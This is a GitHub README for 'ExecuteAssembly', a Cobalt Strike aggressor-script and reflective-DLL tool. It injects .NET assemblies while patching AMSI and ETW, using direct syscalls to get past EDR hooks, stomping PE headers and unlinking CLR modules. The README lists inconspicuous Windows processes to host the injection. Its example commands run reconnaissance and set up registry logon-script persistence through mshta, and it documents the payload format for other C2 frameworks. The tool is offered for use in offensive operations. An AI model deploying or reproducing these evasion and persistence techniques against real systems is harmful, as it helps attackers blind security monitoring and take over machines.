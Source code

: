 ## Description:
ExecuteAssembly is an alternative of CS execute-assembly, built with C/C++ and it can be used to Load/Inject .NET assemblies by; reusing the host (spawnto) process loaded CLR Modules/AppDomainManager, Stomping Loader/.NET assembly PE DOS headers, Unlinking .NET related modules, bypassing ETW+AMSI, avoiding EDR hooks via NT static syscalls (x64) and hiding imports by dynamically resolving APIs via superfasthash hashing algorithm. 

## TLDR (Features):
- CLR related modules unlinking from PEB  data structures. (use MS "ListDLLs" utility instead of PH for confirmation)
- .NET Aseembly and Reflective DLL PE DOS headers stomping (specific bytes/offsets).
- Use of static hardcoded syscalls for bypassing EDR Hooks. (x64 support only for now, from WinXP to Win10 19042)
- CLR "AppDomain/AppDomainManager" enumeration and re-use (ICLRMetaHost->EnumerateLoadedRuntimes), just set the spawnto/host process to a known Windows .NET process.
- Dynamic Resolution of WIN32 APIs (PEB) using APIs corresponding hash (SuperFastHash)
- AMSI and ETW patching prior to loading .NET assemblies.
- .NET assembly bytes parsing and scanning for the CLR version to load/use.
- No use of GetProcAddress/LoadLibrary/GetModuleHandle for ETW bypass.
- CLR Hosting using v4 COM API & Reflective DLL injection


## Usage:
* <b><u>x64(syscalls):</u></b> this version depends mainly on the use of static syscalls to bypass EDR hooks, you can use this version to build the x64 version of the DLL only (x64 support only for now).
* <b><u>x86|x64(PEB):</u></b>  retrieves required API addresses dynamically at runtime by walking the PEB modules EAP tables and resolving APIs via superfasthash hash. however doesn't account for EDR hooks placed either on kernel32.dll or ntdll.dll, you can use this version to build both the x86 and x64 DLLs or only the x86 DLL and use x64(syscalls) version for building the x64 DLL to account for common EDR hooks.
* Build the required DLLs using VS2017 and/or Windows SDK 10.0.17134.0 (or compatible sdk versions).
  
* Make sure gzip is installed and the following artifacts are placed within the same folder then just load the aggressor script "ExecuteAssembly.cna":
   * ExecuteAssembly.cna
   * ExecuteAssembly-x64.dll
   * ExecuteAssembly-x86.dll
   * CLI Options:

      ``--dotnetassembly: .NET Assembly to load/inject.``

      ``--assemblyargs: .NET assembly arguments.``

      ``--unlink-modules: Unlink .NET related modules such as CLR/MsCoree related DLLs from PEB data structures.``

      ``--stomp-headers: Stomp .NET assembly and reflective DLL PE DOS headers.``

      ``--etw: Bypass event tracing on windows (ETW).``

      ``--amsi: Bypass AMSI.``

      ``--spawnto: Choose spawnto process, list of .NET binaries loading the CLR by default when executed:``<br>
         &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;``- PresentationHost.exe``<br>
         &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;``- stordiag.exe``<br>
         &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;``- ScriptRunner.exe``<br>
         &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;``- caitstatic.exe``<br>
         &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;``- Microsoft.Uev.SyncController.exe``<br>
         &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;``- TsWpfWrp.exe``<br>
         &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;``- UevAgentPolicyGenerator.exe``<br>
         &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;``- UevAppMonitor.exe``<br>
         &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;``- FileHistory.exe``<br>
         &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;``- UevTemplateBaselineGenerator.exe``<br>
         &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;``- UevTemplateConfigItemGenerator.exe``<br>

* Check spawnto-list.txt for extra MS binaries loading the the CLR by default and are good candidates to set as a spawnto. (would avoid the known LOLBins unless if it is a dev's machine may be)

## Examples:	
- ``ExecuteAssembly --dotnetassembly /tmp/Seatbelt.exe --assemblyargs LogonSessions --unlink-modules --stomp-headers --amsi --etw --spawnto PresentationHost.exe``<br><br>
- ``ExecuteAssembly --amsi --etw --unlink-modules --stomp-headers --dotnetassembly /tmp/ghostpack/SharPersist.exe --assemblyargs -t reg -c "C:\Windows\SysWow64\mshta.exe C:\Users\admin\Downloads\Test2.hta" -k logonscript -m add --spawnto FileHistory.exe``<br><br>
- ``ExecuteAssembly --unlink-modules --stomp-headers --dotnetassembly /tmp/ghostpack/SharPersist.exe --assemblyargs -t reg -k "logonscript" -v "C:\Windows\SysWow64\mshta.exe C:\Users\admin\Downloads\Test.hta" -m remove --spawnto FileHistory.exe``<br><br>
- ``ExecuteAssembly --unlink-modules --amsi --dotnetassembly /tmp/ghostpack/SharpWMI.exe --assemblyargs action=query computername=localhost query="select * from win32_service" --spawnto FileHistory.exe``<br><br>
- ``ExecuteAssembly --amsi --etw --dotnetassembly /tmp/ghostpack/SharpWMI.exe --assemblyargs action=query query="select * from win32_process" --spawnto PresentationHost.exe``

## C2 Support:
Was created and tested mainly on cobalt strike, however it can be used with other C2 frameworks as well (MSF ..etc), just keep in mind that the reflective DLL DLLMAIN is expecting the one-liner payload as a parameter (lpReserved) in the following format (with no ".");
*  `AMSI_FLAG|ETW_FLAG|STOMPHEADERS_FLAG|UNLINKMODULES_FLAG|LL_FLAG.LENGTH_FLAG.B64_ENCODED_COMPRESSED_PAYLOAD [SPACE SEPARATED ARGUMENTS]`
   *  `AMSI_FLAG`: 0|1 (either 0 or 1)
   *  `ETW_FLAG`: 0|1
   *  `STOMPHEADERS_FLAG`: 0|1
   *  `UNLINKMODULES_FLAG`: 0|1
   *  `LENGTH_FLAG`: .NET assembly size in bytes
   *  `LL_FLAG`: length_of(LENGTH_FLAG) (just bear with me here or pretend you didn't read this)
   *  `B64_ENCODED_COMPRESSED_PAYLOAD`: Gzip compressed and base64 encoded .NET assembly.
   *  `[SPACE SEPARATED ARGUMENTS]`: .NET assembly arguments

## TODO:
- An alternative of RFLL, BOF + Named Pipes may be (not sure about long-duration running tasks)
- x86 support for static syscalls.
- Bug fixing and cleanup of any dangling pointers or mem-leaks i missed :p


## Known Issues:
- Support for SharpHound v2 and v3 (v2 used to work just fine, need to figure out what changed).
- .NET assembly size limitation ( < 1MB)

## Credits/References:
* https://github.com/stephenfewer/ReflectiveDLLInjection
* https://github.com/jthuraisamy/SysWhispers
* https://github.com/etormadiv/HostingCLR
* https://github.com/outflanknl/TamperETW/
* https://github.com/LloydLabs/Windows-API-Hashing
* http://www.rohitab.com/discuss/topic/42077-module-pebldr-hiding-all-4-methods-x64/
* https://gist.github.com/christophetd/37141ba273b447ff885c323c0a7aff93


